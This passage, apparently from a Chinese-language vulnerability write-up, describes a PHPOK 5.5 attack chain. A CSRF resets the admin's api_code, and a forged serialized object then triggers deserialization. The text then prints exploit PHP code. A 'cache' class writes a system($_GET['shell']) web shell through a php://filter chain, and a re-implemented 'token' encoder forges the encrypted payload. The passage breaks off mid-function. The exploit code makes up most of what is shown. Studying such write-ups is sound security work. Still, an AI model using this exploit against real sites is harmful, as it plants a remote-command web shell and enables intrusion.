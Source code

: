 1.  诱导管理员访问精心构造的CSRF脚本，修改`api_code`
2.  利用已知的`api_code`，对上面可被恶意反序列化的类进行序列化后加密
3.  调用解密函数，触发反序列化

假设此处已经通过CSRF重置了系统的`api_code`为`123456`

![5.png](resource/PHPOK5.5csrf+反序列化漏洞getshell/media/rId33.png)

使用脚本序列化恶意类，并对其进行`encode`

    <?php
    class cache{
        protected $key_id;
        protected $key_list;
        protected $folder;

        public function __construct(){
            $this->key_id = 'naiquan';
            $this->key_list = 'a'.base64_encode('<?php system($_GET["shell"]);?>');
            $this->folder = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=';
        }
    }
    class token{
        private $keyid = '';
        private $keyc_length = 6;
        private $keya;
        private $keyb;
        private $time;
        private $expiry = 3600;

        public function keyid($keyid=''){
            if(!$keyid){
                return $this->keyid;
            }
            $this->keyid = strtolower(md5($keyid));
            $this->config();
            return $this->keyid;
        }
        private function config(){
            if(!$this->keyid){
                return false;
            }
            $this->keya = md5(substr($this->keyid, 0, 16));
            $this->keyb = md5(substr($this->keyid, 16, 16));
        }

        public function encode($string){
            if(!$this->keyid){
                return false;
            }

            $expiry_time = $this->expiry ? $this->expiry : 365*24*3600;
            $string = sprintf('%010d',($expiry_time + time())).substr(md5($string.$this->keyb), 0, 16).$string;
            $keyc = substr(md5(microtime().rand(1000,9999)), -$this->keyc_length);
            $cryptkey = $this->keya.md5($this->keya.$keyc);
            $rs = $this->core($string,$cryptkey);
            return $keyc.str_replace('=', '', base64_encode($rs));
            //return $keyc.base64_encode($rs);
        }
        private function core($string,$cryptkey){
            $key_length = strlen($cryptkey);
            $string_length = strlen($string);
            $result = '';
            $box = range(0, 255);
            $rndkey = array();
            // 产生密匙簿
            for($i = 0; $i <= 255; $i++){